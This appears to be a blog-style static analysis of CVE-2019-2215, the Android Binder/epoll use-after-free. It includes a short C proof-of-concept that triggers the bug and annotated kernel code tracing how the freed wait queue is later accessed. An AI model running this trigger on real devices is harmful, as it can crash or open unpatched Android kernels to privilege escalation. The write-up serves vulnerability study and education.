

# CVE-2019-2215: Android Binder Use-After-Free Vulnerability - A Deep Dive (Static analysis)

## Introduction

This post analyzes a use-after-free (UAF) vulnerability in the Android Binder driver when combined with Linux's epoll mechanism. The vulnerability occurs when a binder thread structure is freed while still being referenced by epoll's wait queue, leading to a dangling pointer that can be exploited.

## The Vulnerability at a Glance

The core issue revolves around improper lifetime management of the `binder_thread` structure. When epoll monitors a binder file descriptor, it maintains a reference to a wait queue embedded within the `binder_thread` structure. However, explicitly calling the `BINDER_THREAD_EXIT` ioctl frees this structure without updating epoll's references, creating a classic use-after-free condition.



## Proof of Concept Trigger

Here's the minimal code that triggers the vulnerability:

```c
#include <fcntl.h>
#include <sys/epoll.h>
#include <sys/ioctl.h>
#include <unistd.h>

#define BINDER_THREAD_EXIT 0x40046208ul

int main()
{
        int fd, epfd;
        struct epoll_event event = { .events = EPOLLIN };
                
        fd = open("/dev/binder", O_RDONLY);
        epfd = epoll_create(1000);
        epoll_ctl(epfd, EPOLL_CTL_ADD, fd, &event);
        ioctl(fd, BINDER_THREAD_EXIT, NULL);
}
```

This simple sequence creates the vulnerable scenario in just four system calls.

## Understanding the Bug Flow

### The Lifecycle Problem

The vulnerability emerges from a mismatch in how three kernel components manage memory:

1. **Binder Thread Allocation**: When `binder_poll` is first called (triggered by epoll), it searches for an existing thread in a red-black tree. If none exists, it allocates a new `binder_thread` structure containing an embedded `wait_queue_head_t`.

2. **Premature Deallocation**: The `BINDER_THREAD_EXIT` ioctl explicitly frees the `binder_thread` structure, including its embedded wait queue.

3. **Dangling Reference**: Epoll still maintains a pointer to the now-freed wait queue through `eppoll_entry->whead`. When epoll later tries to remove the file descriptor (via `EPOLL_CTL_DEL` or cleanup), it attempts to access this freed memory.

### Key Data Structures

Understanding the involved structures is crucial to grasping the vulnerability:

```c
struct binder_thread {
        struct binder_proc *proc;
        struct rb_node rb_node;
        struct list_head waiting_thread_node;
        int pid;
        int looper;
        bool looper_need_return;
        struct binder_transaction *transaction_stack;
        struct list_head todo;
        bool process_todo;
        struct binder_error return_error;
        struct binder_error reply_error;
        wait_queue_head_t wait; // ⚠️ THIS GETS FREED BUT REMAINS REFERENCED
        struct binder_stats stats;
        atomic_t tmp_ref;
        bool is_dead;
        struct task_struct *task;
};
```

The `wait` member is a `wait_queue_head_t` that epoll references:

```c
struct __wait_queue_head {
        spinlock_t lock;
        struct list_head task_list;
};
typedef struct __wait_queue_head wait_queue_head_t;
```

---

## Deep Dive: Step-by-Step Execution Analysis

### Step 1: Opening the Binder Device

```c
fd = open("/dev/binder", O_RDONLY);
```

When userspace opens `/dev/binder`, the kernel invokes `binder_open`:

```c
static int binder_open(struct inode *nodp, struct file *filp)
{
        struct binder_proc *proc;
        
        proc = kzalloc(sizeof(*proc), GFP_KERNEL); // Allocate process context
        if (proc == NULL)
                return -ENOMEM;
        
        filp->private_data = proc; // Store in file's private data
        
        return 0;
}
```

**What happens**: A `binder_proc` structure is allocated to represent this process's binder context and stored in the file descriptor's `private_data` field for later access.

---

### Step 2: Creating an Epoll Instance

```c
epfd = epoll_create(1000);
```

The `epoll_create` syscall ultimately calls `sys_epoll_create1`:

```c
SYSCALL_DEFINE1(epoll_create1, int, flags)
{
        int error, fd;
        struct eventpoll *ep = NULL;
        struct file *file;
        
        error = ep_alloc(&ep); // Allocate the core epoll structure
        if (error < 0)
                return error;
        
        file = anon_inode_getfile("[eventpoll]", &eventpoll_fops, ep,
                                 O_RDWR | (flags & O_CLOEXEC));
        
        ep->file = file;
        fd_install(fd, file);
        return fd;
}
```

The `ep_alloc` function creates the eventpoll structure:

```c
static int ep_alloc(struct eventpoll **pep)
{
        struct eventpoll *ep;
        
        ep = kzalloc(sizeof(*ep), GFP_KERNEL);
        
        init_waitqueue_head(&ep->wq);        // For sys_epoll_wait()
        init_waitqueue_head(&ep->poll_wait); // For file->poll()
        INIT_LIST_HEAD(&ep->rdllist);        // Ready file descriptor list
        ep->rbr = RB_ROOT_CACHED;            // Red-black tree for monitored fds
        
        *pep = ep;
        return 0;
}
```

**What happens**: An `eventpoll` structure is created with initialized wait queues and a red-black tree to track monitored file descriptors.

---

### Step 3: Adding Binder FD to Epoll (The Critical Step)

```c
epoll_ctl(epfd, EPOLL_CTL_ADD, fd, &event);
```

This is where the vulnerability seeds itself. The call chain is:

#### 3.1: Epoll Control Handler

```c
SYSCALL_DEFINE4(epoll_ctl, int, epfd, int, op, int, fd,
                struct epoll_event __user *, event)
{
        struct eventpoll *ep;
        struct epitem *epi;
        struct epoll_event epds;
        
        // Copy event structure from userspace
        if (ep_op_has_event(op) &&
            copy_from_user(&epds, event, sizeof(struct epoll_event)))
                goto error_return;
        
        // Get the eventpoll structure
        ep = f.file->private_data;
        
        // Check if this fd is already monitored
        epi = ep_find(ep, tf.file, fd);
        
        switch (op) {
        case EPOLL_CTL_ADD:
                if (!epi) {
                        epds.events |= POLLERR | POLLHUP;
                        error = ep_insert(ep, &epds, tf.file, fd, full_check);
                } else
                        error = -EEXIST; // Already exists
                break;
        }
        
        return error;
}
```

#### 3.2: Inserting the Epoll Item

```c
static int ep_insert(struct eventpoll *ep, struct epoll_event *event,
                     struct file *tfile, int fd, int full_check)
{
        struct epitem *epi;
        struct ep_pqueue epq;
        
        // Allocate an epoll item to represent this monitored fd
        epi = kmem_cache_alloc(epi_cache, GFP_KERNEL);
        
        // Initialize the epitem
        INIT_LIST_HEAD(&epi->rdllink);
        INIT_LIST_HEAD(&epi->fllink);
        INIT_LIST_HEAD(&epi->pwqlist); // List of poll wait queues
        epi->ep = ep;
        ep_set_ffd(&epi->ffd, tfile, fd);
        epi->event = *event;
        
        // Set up the poll table callback
        epq.epi = epi;
        init_poll_funcptr(&epq.pt, ep_ptable_queue_proc);
        
        // ⚠️ CRITICAL: Call the file's poll function
        revents = ep_item_poll(epi, &epq.pt);
        
        // Insert into the red-black tree
        ep_rbtree_insert(ep, epi);
        
        return 0;
}
```

#### 3.3: Triggering Binder Poll

```c
static inline unsigned int ep_item_poll(struct epitem *epi, poll_table *pt)
{
        pt->_key = epi->event.events;
        
        // This calls binder_poll for binder file descriptors
        return epi->ffd.file->f_op->poll(epi->ffd.file, pt) & epi->event.events;
}
```

#### 3.4: Binder Poll Handler

```c
static unsigned int binder_poll(struct file *filp,
                                struct poll_table_struct *wait)
{
        struct binder_proc *proc = filp->private_data;
        struct binder_thread *thread = NULL;
        
        // Get or create a binder_thread for this thread
        thread = binder_get_thread(proc);
        if (!thread)
                return POLLERR;
        
        // ⚠️ CRITICAL: Register the embedded wait queue with epoll
        poll_wait(filp, &thread->wait, wait);
        
        return 0;
}
```

**The vulnerability is planted here**: `poll_wait` passes a pointer to `thread->wait` (embedded in the `binder_thread` structure) to epoll.

#### 3.5: Getting/Creating the Binder Thread

```c
static struct binder_thread *binder_get_thread(struct binder_proc *proc)
{
        struct binder_thread *thread;
        struct binder_thread *new_thread;
        
        // Try to find existing thread in red-black tree
        thread = binder_get_thread_ilocked(proc, NULL);
        
        if (!thread) {
                // Allocate new thread structure
                new_thread = kzalloc(sizeof(*thread), GFP_KERNEL);
                
                // Initialize and insert into tree
                thread = binder_get_thread_ilocked(proc, new_thread);
        }
        
        return thread;
}
```

#### 3.6: Registering the Wait Queue (The Hook)

```c
static void ep_ptable_queue_proc(struct file *file, wait_queue_head_t *whead,
                                 poll_table *pt)
{
        struct epitem *epi = ep_item_from_epqueue(pt);
        struct eppoll_entry *pwq;
        
        // Allocate an epoll entry to link wait queues
        pwq = kmem_cache_alloc(pwq_cache, GFP_KERNEL);
        
        init_waitqueue_func_entry(&pwq->wait, ep_poll_callback);
        
        // ⚠️ CRITICAL: Store pointer to binder_thread->wait
        pwq->whead = whead; // This points to freed memory later!
        pwq->base = epi;
        
        // Link the wait queue
        add_wait_queue(whead, &pwq->wait);
        
        // Add to epitem's poll wait queue list
        list_add_tail(&pwq->llink, &epi->pwqlist);
        epi->nwait++;
}
```

**What happens**: An `eppoll_entry` is created that stores a pointer to `binder_thread->wait` in `pwq->whead`. This creates a dependency that becomes dangerous when the thread is freed.

---

### Step 4: Freeing the Binder Thread (Setting the Trap)

```c
ioctl(fd, BINDER_THREAD_EXIT, NULL);
```

This explicitly tells the binder driver to release the thread:

#### 4.1: Binder Ioctl Handler

```c
static long binder_ioctl(struct file *filp, unsigned int cmd, unsigned long arg)
{
        struct binder_proc *proc = filp->private_data;
        struct binder_thread *thread;
        
        thread = binder_get_thread(proc);
        
        switch (cmd) {
        case BINDER_THREAD_EXIT:
                binder_thread_release(proc, thread);
                thread = NULL;
                break;
        }
        
        return ret;
}
```

#### 4.2: Releasing the Thread

```c
static int binder_thread_release(struct binder_proc *proc,
                                 struct binder_thread *thread)
{
        binder_thread_dec_tmpref(thread);
        return active_transactions;
}
```

#### 4.3: Decrementing Reference and Freeing

```c
static void binder_thread_dec_tmpref(struct binder_thread *thread)
{
        if (thread->is_dead && !atomic_read(&thread->tmp_ref)) {
                binder_free_thread(thread);
                return;
        }
}
```

#### 4.4: The Actual Free

```c
static void binder_free_thread(struct binder_thread *thread)
{
        kfree(thread); // ⚠️ The structure is freed, but epoll still has pointers!
}
```

**What happens**: The `binder_thread` structure (and its embedded `wait` queue) is freed. However, `eppoll_entry->whead` still points to this freed memory. **The dangling pointer now exists.**

---

### Step 5: Triggering the Use-After-Free

The UAF can be triggered in multiple ways:

#### Option A: Explicit Removal

```c
epoll_ctl(epfd, EPOLL_CTL_DEL, fd, &event);
```

#### Option B: Implicit Cleanup

Simply closing the epoll fd or the binder fd will trigger cleanup code.

#### The Cleanup Chain

```c
static int ep_remove(struct eventpoll *ep, struct epitem *epi)
{
        ep_unregister_pollwait(ep, epi);
        return 0;
}
```

```c
static void ep_unregister_pollwait(struct eventpoll *ep, struct epitem *epi)
{
        struct list_head *lsthead = &epi->pwqlist;
        struct eppoll_entry *pwq;
        
        // Iterate through all poll wait queue entries
        while (!list_empty(lsthead)) {
                pwq = list_first_entry(lsthead, struct eppoll_entry, llink);
                
                ep_remove_wait_queue(pwq); // ⚠️ This will use freed memory
        }
}
```

```c
static void ep_remove_wait_queue(struct eppoll_entry *pwq)
{
        wait_queue_head_t *whead;
        
        whead = smp_load_acquire(&pwq->whead); // Load the dangling pointer
        if (whead)
                remove_wait_queue(whead, &pwq->wait); // ⚠️ UAF here!
}
```

#### The Use-After-Free Moment

```c
void remove_wait_queue(struct wait_queue_head *wq_head, 
                      struct wait_queue_entry *wq_entry)
{
        unsigned long flags;
        
        // ⚠️ CRITICAL: Accessing freed memory!
        spin_lock_irqsave(&wq_head->lock, flags); // wq_head points to freed memory
        
        __remove_wait_queue(wq_head, wq_entry);
        
        spin_unlock_irqrestore(&wq_head->lock, flags);
}
```

**The vulnerability is exploited**: The code attempts to acquire a spinlock on `wq_head->lock`, but `wq_head` points to the freed `binder_thread->wait` structure. This is a textbook use-after-free.
